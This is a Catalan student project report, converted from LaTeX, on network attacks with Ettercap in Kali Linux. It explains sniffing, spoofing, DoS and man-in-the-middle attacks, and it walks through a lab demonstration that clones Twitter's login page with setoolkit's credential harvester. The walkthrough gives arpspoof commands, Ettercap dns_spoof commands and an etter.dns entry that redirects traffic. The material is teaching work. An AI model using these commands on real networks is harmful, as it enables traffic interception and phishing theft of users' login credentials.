\PassOptionsToPackage{unicode=true}{hyperref} % options for packages loaded elsewhere
\PassOptionsToPackage{hyphens}{url}
%
\documentclass[]{article}
\usepackage{lmodern}
\usepackage{amssymb,amsmath}
\usepackage{ifxetex,ifluatex}
\usepackage{fixltx2e} % provides \textsubscript
\ifnum 0\ifxetex 1\fi\ifluatex 1\fi=0 % if pdftex
  \usepackage[T1]{fontenc}
  \usepackage[utf8]{inputenc}
  \usepackage{textcomp} % provides euro and other symbols
\else % if luatex or xelatex
  \usepackage{unicode-math}
  \defaultfontfeatures{Ligatures=TeX,Scale=MatchLowercase}
\fi
% use upquote if available, for straight quotes in verbatim environments
\IfFileExists{upquote.sty}{\usepackage{upquote}}{}
% use microtype if available
\IfFileExists{microtype.sty}{%
\usepackage[]{microtype}
\UseMicrotypeSet[protrusion]{basicmath} % disable protrusion for tt fonts
}{}
\IfFileExists{parskip.sty}{%
\usepackage{parskip}
}{% else
\setlength{\parindent}{0pt}
\setlength{\parskip}{6pt plus 2pt minus 1pt}
}
\usepackage{hyperref}
\hypersetup{
            pdfborder={0 0 0},
            breaklinks=true}
\urlstyle{same}  % don't use monospace font for urls
\usepackage{graphicx,grffile}
\makeatletter
\def\maxwidth{\ifdim\Gin@nat@width>\linewidth\linewidth\else\Gin@nat@width\fi}
\def\maxheight{\ifdim\Gin@nat@height>\textheight\textheight\else\Gin@nat@height\fi}
\makeatother
% Scale images if necessary, so that they will not overflow the page
% margins by default, and it is still possible to overwrite the defaults
% using explicit options in \includegraphics[width, height, ...]{}
\setkeys{Gin}{width=\maxwidth,height=\maxheight,keepaspectratio}
\setlength{\emergencystretch}{3em}  % prevent overfull lines
\providecommand{\tightlist}{%
  \setlength{\itemsep}{0pt}\setlength{\parskip}{0pt}}
\setcounter{secnumdepth}{0}
% Redefines (sub)paragraphs to behave more like sections
\ifx\paragraph\undefined\else
\let\oldparagraph\paragraph
\renewcommand{\paragraph}[1]{\oldparagraph{#1}\mbox{}}
\fi
\ifx\subparagraph\undefined\else
\let\oldsubparagraph\subparagraph
\renewcommand{\subparagraph}[1]{\oldsubparagraph{#1}\mbox{}}
\fi

% set default figure placement to htbp
\makeatletter
\def\fps@figure{htbp}
\makeatother


\date{}

\begin{document}

\hypertarget{projecte-asix-2k22}{%
\section{\texorpdfstring{\textbf{Projecte ASIX
2k22}}{Projecte ASIX 2k22}}\label{projecte-asix-2k22}}

\hypertarget{escola-del-treball}{%
\subsection{\texorpdfstring{\textbf{Escola Del
Treball}}{Escola Del Treball}}\label{escola-del-treball}}

\hypertarget{hisx-2021-2022}{%
\subsubsection{\texorpdfstring{\textbf{2HISX
2021-2022}}{2HISX 2021-2022}}\label{hisx-2021-2022}}

\hypertarget{aaron-andal-cristian-condolo}{%
\subsubsection{\texorpdfstring{\textbf{Aaron Andal \& Cristian
Condolo}}{Aaron Andal \& Cristian Condolo}}\label{aaron-andal-cristian-condolo}}

\hypertarget{cryptosec-careful-where-you-step-in}{%
\section{\texorpdfstring{\textbf{CryptoSEC}: ``\emph{Careful where you
step
in}''}{CryptoSEC: ``Careful where you step in''}}\label{cryptosec-careful-where-you-step-in}}


\includegraphics{./tex2pdf.-142b9dd0706d5021/785b57206d80bd3d5ef15f036481e103db8435a1.png}

\hypertarget{index}{%
\section{\texorpdfstring{\textbf{Index}}{Index}}\label{index}}

\begin{itemize}
\item
  \textbf{Ettercap}: \protect\hyperlink{ettercap}{--\textgreater{}
  readME \textless{}--}
\item
  \textbf{Els atacs que es poden fer a Ettercap}:
  \protect\hyperlink{els-atacs-que-es-poden-fer-a-ettercap}{--\textgreater{}
  readME \textless{}--}

  \begin{itemize}
  \item
    \textbf{Eavesdropping (Escoltar atentament)}:
    \protect\hyperlink{eavesdropping-escoltar-atentament}{--\textgreater{}
    readME \textless{}--}
  \item
    \textbf{Falsificació de direccions IP (Address Spoofing o DNS Cache
    Poisoning + ARP Spoof)}:
    \protect\hyperlink{falsificaciuxf3-de-direccions-ip-address-spoofing-o-dns-cache-poisoning--arp-spoof}{--\textgreater{}
    readME \textless{}--}
  \item
    \textbf{Atac de denegació de servei (DoS)}:
    \protect\hyperlink{atac-de-denegaciuxf3-de-servei-dos}{--\textgreater{}
    readME \textless{}--}
  \item
    \textbf{Atac Man in the Middle}:
    \protect\hyperlink{atac-man-in-the-middle}{--\textgreater{} readME
    \textless{}--}
  \end{itemize}
\item
  \textbf{Exemple pràctic d'Ettercap}:
  \protect\hyperlink{exemple-pruxe0ctic-dettercap}{--\textgreater{}
  readME \textless{}--}

  \begin{itemize}
  \item
    \textbf{Exemple utilitzant \textbf{setoolkit} a Kali Linux i
    ETTERCAP}:
    \protect\hyperlink{exemple-1-utilitzant-setoolkit-a-kali-linux-i-ettercap}{--\textgreater{}
    readME \textless{}--}
  \item
    \textbf{Explicació resumida}:
    \protect\hyperlink{explicaciuxf3-resumida}{--\textgreater{} readME
    \textless{}--}
  \end{itemize}
\item
  \textbf{Bibliografia}:
  \protect\hyperlink{bibliografia}{--\textgreater{} readME
  \textless{}--}
\end{itemize}

\hypertarget{kali-linux}{%
\section{\texorpdfstring{\textbf{Kali
Linux}}{Kali Linux}}\label{kali-linux}}

\hypertarget{ettercap}{%
\subsection{\texorpdfstring{\textbf{Ettercap}}{Ettercap}}\label{ettercap}}

Ettercap és una eina de rastreig de xarxa basada en la suplantació
d'adreces ARP.

Té olfacte de connexions dinàmiques, filtratge de contingut dinàmic i
molts altres trucs interessants.

És compatible amb l'anàlisi activa i passiva de molts protocols i inclou
moltes característiques per a l'anàlisi de xarxa i amfitrió.

És principalment adequat per canviar les xarxes dàrea local. Amb lajuda
del programari sniffer EtterCap, els provadors de penetració poden
detectar la seguretat de la comunicació de dades de text clar a la xarxa
i prendre mesures oportunes per evitar que les dades confidencials de
nom dusuari / contrasenya es transmetin en text clar.

Amb \textbf{Ettercap}, podem simular un atac, un atac és una manera de
destruir, exposar i obtenir accés no autoritzat a dades i ordinadors.

Un atacant és una persona que roba les vostres dades sense permís i una
característica d'alguns atacs és que estan ocults.

Els atacs no sempre són senzills; la majoria són complexos i és un gran
repte per als investigadors de seguretat i les empreses que ofereixen
una solució per a ells.

Un atac pot ser actiu o passiu:

\begin{itemize}
\item
  \textbf{Atac actiu}: En aquest tipus d'atac, l'atacant intenta alterar
  els recursos del sistema o destruir-ne les dades. L'Atacant pot
  canviar les dades.
\item
  \textbf{Atac passiu}: En aquest tipus d'atac, l'atacant intenta
  obtenir informació del sistema sense destruir la informació. Aquest
  atac és més aviat vigilància i reconeixement de l'objectiu.
\end{itemize}

\includegraphics{./tex2pdf.-142b9dd0706d5021/6399c96817de0caffe251c7e64b8a1261eae2b63.png}

Diferents tipus d'atacs actius i pasius:

Atac actiu:

\begin{itemize}
\item
  Atac de denegació de servei (DoS).
\item
  Spoofing.
\item
  Man in the middle.
\item
  Enverinament ARP.
\item
  Desbordament.
\end{itemize}

Atac pasiu:

\begin{itemize}
\item
  Escáneres de puertos.
\item
  Idle Scan (escaneo inactivo).
\end{itemize}

\hypertarget{els-atacs-que-es-poden-fer-a-ettercap}{%
\section{\texorpdfstring{\textbf{Els atacs que es poden fer a
Ettercap}}{Els atacs que es poden fer a Ettercap}}\label{els-atacs-que-es-poden-fer-a-ettercap}}

\hypertarget{eavesdropping-escoltar-atentament}{%
\subsection{\texorpdfstring{\textbf{Eavesdropping (Escoltar
atentament)}}{Eavesdropping (Escoltar atentament)}}\label{eavesdropping-escoltar-atentament}}

Segur que et resulta familiar; és una cosa molt normal a la vida.
Imagina't que vols trobar alguna informació sobre dos amics i la seva
relació. Una manera molt senzilla és escoltar en secret les vostres
paraules. Aquest tipus d'atac també es produeix a les comunicacions
informàtiques, però es coneix com a \textbf{sniffing}.

\includegraphics{./tex2pdf.-142b9dd0706d5021/193c2dd9e32f432bea47a8c10364a792fbb446d8.jpg}

Quan xateges amb el teu amic en mode ``text clar'', és possible olorar
el teu trànsit. Pot semblar antic, però pots estar segur que és un dels
problemes de seguretat més grans en una xarxa que els administradors de
xarxa no tenen en compte.

\hypertarget{falsificaciuxf3-de-direccions-ip-address-spoofing-o-dns-cache-poisoning-arp-spoof}{%
\subsection{\texorpdfstring{\textbf{Falsificació de direccions IP
(Address Spoofing o DNS Cache Poisoning + ARP
Spoof)}}{Falsificació de direccions IP (Address Spoofing o DNS Cache Poisoning + ARP Spoof)}}\label{falsificaciuxf3-de-direccions-ip-address-spoofing-o-dns-cache-poisoning-arp-spoof}}

Sé que saps què és una adreça IP (Protocol d'Internet). Com saps, per
comunicar-se amb altres ordinadors, cada ordinador necessita una IP. En
aquest atac, un atacant vol fer una adreça de destinació falsa i
enganyar-te sobre això. Per exemple, el teu objectiu és mibanco.com i un
atacant reenvia la teva petició a un fals mibanco.com. L'objectiu és
suplantar el host víctima.

\includegraphics{./tex2pdf.-142b9dd0706d5021/9e5a469b13bda4894ca5c6b71c8f7b3988f814a6.jpg}

\hypertarget{atac-de-denegaciuxf3-de-servei-dos}{%
\subsection{Atac de denegació de servei
(DoS)}\label{atac-de-denegaciuxf3-de-servei-dos}}

En aquest tipus d'atac, un atacant intenta fer que una màquina o un
recurs de xarxa no estigui disponible per als usuaris.

L'objectiu és interrompre o suspendre els serveis que es connecten a
Internet. Aquest atac es dirigeix ​​a gateways i servidors web, com els
dels bancs, i realitza alguns dels sabotatges següents.

\begin{itemize}
\item
  Ús de recursos computacionals, com lample de banda, la memòria, lespai
  en disc o fins i tot la CPU. Com suposo, la teva ment podria divagar
  cap al codi maliciós.
\item
  Destrueix la informació i les taules d'encaminament.
\item
  Interrompre els components físics de la xarxa, com els routers, els
  switches i els firewalls.
\item
  Envia dades no vàlides a aplicacions o serveis de xarxa. Podeu acabar
  anormalment els serveis.
\item
  Enviar molts paquets a les destinacions per inundar-los i finalment
  col·lapsar i apagar.
\item
  Bloquejar les destinacions i que els usuaris autoritzats no hi puguin
  accedir.
\end{itemize}

Al DDoS, un atacant pot utilitzar la tècnica del Zombie per capturar
molts ordinadors i enviar moltes peticions a la víctima a través d'ells
o de bots. Zombie vol dir que un ordinador connectat a Internet ha estat
compromès per un hacker.

\includegraphics{./tex2pdf.-142b9dd0706d5021/b11d3d9883292ce939094fc1aa96ac0d3d072c3d.png}

\hypertarget{atac-man-in-the-middle}{%
\subsection{\texorpdfstring{\textbf{Atac Man in the
Middle}}{Atac Man in the Middle}}\label{atac-man-in-the-middle}}

L'atac man-in-the-middle (abreujat MITM, MitM, MIM, MiM, MITMA) és una
forma d'atac actiu en què un atacant estableix una connexió entre les
víctimes i envia missatges entre elles.

Així, les víctimes creuen que estan parlant directament entre elles,
però en realitat un atacant ho controla.

En aquest escenari, un atacant ha tingut èxit quan es pot fer passar per
un usuari.

D'altra banda, hi ha una tercera persona entre tu i la persona amb qui
et comuniques i pot controlar i vigilar el teu trànsit.

\includegraphics{./tex2pdf.-142b9dd0706d5021/e98cb868fc160cd04f0803fecc4eb4d2ba9a8069.png}

Afortunadament, alguns protocols poden impedir-ho, com el SSL.

Un hacker pot utilitzar el següent programari per implementar aquest
atac:

\begin{itemize}
\item
  Caín i Abel
\item
  Subterfugi
\item
  \textbf{Ettercap}: És el que utilitzarem
\item
  AirJack
\item
  \textbf{SSLStrip}: L'utilitzarem per trencar el SSL.
\item
  \textbf{SSLSniff}
\end{itemize}

\hypertarget{exemple-pruxe0ctic-dettercap}{%
\section{\texorpdfstring{\textbf{Exemple pràctic
d'Ettercap}}{Exemple pràctic d'Ettercap}}\label{exemple-pruxe0ctic-dettercap}}

\hypertarget{exemple-1-utilitzant-setoolkit-a-kali-linux-i-ettercap}{%
\subsection{\texorpdfstring{\textbf{Exemple 1: Utilitzant
\textbf{setoolkit} a Kali Linux i
ETTERCAP}}{Exemple 1: Utilitzant setoolkit a Kali Linux i ETTERCAP}}\label{exemple-1-utilitzant-setoolkit-a-kali-linux-i-ettercap}}

Demostració ràpida de com DNS pot ser suplantat utilitzant Kali Linux, i
com el tràfic pot ser redirigit a una pàgina fraudulenta.

Hem decidit fer phishing la pàgina de Twitter utilitzant una eina
anomenada ``setoolkit'' i fer un clonatge de la pàgina de Twitter.

Posteriorment suplantar el registre DNS en la que apuntava a twitter.com
a la nostra màquina, on hi tenim un allotjat una pàgina fraudulenta
utilitzant l'eina.

\emph{Website Attack Vectors -\textgreater{} Creditials Harvestor
-\textgreater{} Clone website / Use Web Template}

Utilitzarem un ``toolkit'' anomenat ``setooklit'' que es permetrà fer
phishing a una pàgina i fer un clonatge perfecte.

\includegraphics{./tex2pdf.-142b9dd0706d5021/30c24d2469ccc294b42630c6115feaeac6b7f5f9.png}

Podem fer un clonatge d'una pàgina web o també té ``templates'' pre
definides. En aquest exemple utilitzarem el template de
https://www.twitter.com

Tarda una estona.

\includegraphics{./tex2pdf.-142b9dd0706d5021/44bccdec6ac0bd4dd15cfeb35c4ef1620f40c6c4.png}

\includegraphics{./tex2pdf.-142b9dd0706d5021/53a2dc3d1e97079d48a914c5d363d4ed4b37761a.png}

Com podem observar la pàgina de Twitter està a la nostra IP
10.200.243.137 al port 80.

Ara necessitem que tot el tràfic per a twitter.com sigui redirigit a la
meva IP. Utilitzarem DNS Spoof que està disponible a ETTERCAP.

S'ha de canviar el contigut del fitxer etter.dns per a que twitter.com
apunto a la nostra IP.

\texttt{apt-get\ install\ mlocate}

\texttt{updatedb}

\texttt{locate\ etter.dns}

┌──(root㉿osboxes)-{[}/home/anonymous{]} └─\# locate etter.dns
/etc/ettercap/etter.dns /usr/share/ettercap/etter.dns.examples

\texttt{cp\ /etc/ettercap/etter.dns\ /etc/ettercap/etter.dns.original}

\texttt{vi\ /etc/ettercap/etter.dns}

\begin{verbatim}
*.twitter.com   A       10.200.243.137
www.twitter.com PTR     10.200.243.137

www.alor.org    A       127.0.0.1
www.naga.org    A       127.0.0.1
\end{verbatim}

\textbf{Obrim Ettercap.}

\includegraphics{./tex2pdf.-142b9dd0706d5021/6d9f1f74187d4d8b8012d877269fda834ce81b5e.png}

\texttt{ettercap\ -\/-gtk} --\textgreater{} Fem el loadup.

Ens anem a \texttt{Plugins} --\textgreater{}
\texttt{Manage\ the\ Plugins} --\textgreater{}
\texttt{DNS\ Spoof\ plugin} --\textgreater{} L'activem.

\includegraphics{./tex2pdf.-142b9dd0706d5021/3007a3488146fb7afcd2d2861f248f0125640663.png}

A continuació, ARP enverinará tots els amfitrions de la xarxa, de manera
que tot el trànsit passa per la nostra màquina (atacant)
--\textgreater{} començarem a ``esnifar''.

Quan algú intenti accedir a twitter.com, la finestra d'ettercap dirà
``bla\_bla.twitter.com'' falsificat a la ip de l'atacant
\texttt{\textless{}la\_nostra\_ip\textgreater{}}.

Al mateix temps, a la finestra SET, veuràs ``tenim un èxit!!'' juntament
amb alguna altra informació. Si la víctima és prou crédula per introduir
les seves credencials a la vostra pàgina de pesca, veureu aquests
detalls a la finestra SET.

Però heu de jugar al joc d'espera i esperar fins que algú intenti
accedir al lloc web de pesca.

\begin{verbatim}
# Kali Linux

arp -a

arpspoof -i eth0 -t 10.200.243.211 10.200.243.1 # Suplantació redirecció de paquets al Client

arpspoof -i eth0 -t 10.200.243.1 10.200.243.211 # Suplantació redirecció de paquets al Servidor
\end{verbatim}

\begin{verbatim}
# Host local

Connectar-se a Twitter - Farà la redirecció a 10.200.243.137

\end{verbatim}

\includegraphics{./tex2pdf.-142b9dd0706d5021/3007a3488146fb7afcd2d2861f248f0125640663.png}

\hypertarget{ettercap-per-cli}{%
\subsection{\texorpdfstring{\textbf{Ettercap per
CLI}}{Ettercap per CLI}}\label{ettercap-per-cli}}

\begin{itemize}
\tightlist
\item
  https://esgeeks.com/tutorial-ettercap-ejemplos/
\end{itemize}

Utilitza la següent ordre per llançar una suplantació de DNS:

sudo ettercap -T -q -P dns\_spoof -i wlan0 -M arp /// ///

\#Un altre comandament, per a tota la xarxa sudo ettercap -T -q -M arp
-i wlan0 -P dns\_spoof -p //192.168.1.1/

\#Per a un rang de xarxa sudo ettercap -T -q -M arp -i wlan0 -P
dns\_spoof //192.168.1.1/ 192.168.1.51/

\hypertarget{explicaciuxf3-resumida}{%
\section{\texorpdfstring{\textbf{Explicació
resumida:}}{Explicació resumida:}}\label{explicaciuxf3-resumida}}

ARP Spoof - DNS Cache Poisoning

IP Atacant. 10.200.243.137 MAC Atacant: 08:00:27:16:51:52

IP Victima: 10.200.243.212 MAC Victima: 18:c0:4d:a0:8f:c8

IP Router Gateway: 10.200.243.1 MAC Router Gateway: 00:22:57:be:53:01

Pàgina clonada: http://www.twitter.com

SPOOF del tràfic entre la VÍCTIMA I EL ROUTER --\textgreater{} ES CANVIA
LA MAC DEL CLIENT VICTIMA PER LA MEVA: 18:c0:4d:a0:8f:c8 PER LA MEVA
(ATACANT): 08:00:27:16:51:52.

EN REALITAT QUI CONECTA AMB EL SERVIDOR, SOC JO NO LA VÍCTIMA. FEM LA
TORNADA.

└─\# arpspoof -i eth0 -t 10.200.243.212 10.200.243.1 8:0:27:16:51:52
18:c0:4d:a0:8f:c8 0806 42: arp reply 10.200.243.1 is-at 8:0:27:16:51:52

``Tot el fluxe que va del servidor a la víctima, redirigeix-los a la
meva màquina''

TORNADA

SPOOF del tràfic entre la EL ROUTER I LA VICTIMA --\textgreater{} ES
CANVIA LA MAC DEL DEL ROUTER PER LA MEVA: 0:22:57:be:53:1 PER LA MEVA
(ATACANT): 08:00:27:16:51:52.

EN REALITAT QUI CONECTA AMB EL SERVIDOR, SOC JO NO LA VÍCTIMA. FEM LA
TORNADA.

┌──(root㉿osboxes)-{[}/home/anonymous{]} └─\# arpspoof -i eth0 -t
10.200.243.1 10.200.243.212 8:0:27:16:51:52 0:22:57:be:53:1 0806 42: arp
reply 10.200.243.212 is-at 8:0:27:16:51:52 8:0:27:16:51:52
0:22:57:be:53:1 0806 42: arp reply 10.200.243.212 is-at 8:0:27:16:51:52

``Tot el fluxe que va de la víctima al servidor, redirigeix-los a la
meva màquina''

\emph{RESUM: TOT EL TRÀFIC DE PAQUETS QUE SURT DE LA VÍCTIMA AL
SERVIDOR, SERÀN ``FORWARD'' AL MEU CLIENT ATACANT. JA QUE EL LA VÍCTIMA
CREU QUE QUI CONTACTA ES AL ROUTER, PERO NO. SUPLANTO LA MAC DESTÍ DEL
ROUTER PER LA MEVA.}

\includegraphics{./tex2pdf.-142b9dd0706d5021/770947a162cbd074b2ea89b2ea419b81e3597511.png}

\includegraphics{./tex2pdf.-142b9dd0706d5021/f371554c0f10470122558f0156e9a54a45d61f54.png}

\hypertarget{bibliografia}{%
\section{\texorpdfstring{\textbf{Bibliografia}:}{Bibliografia:}}\label{bibliografia}}

https://esgeeks.com/tutorial-ettercap-ejemplos/
https://programmerclick.com/article/2815493326/
https://www.amirootyet.com/post/how-to-spoof-dns-in-kali-linux/
https://es.acervolima.com/ataque-mitm-man-in-the-middle-usando-arp-poisoning/

\end{document}
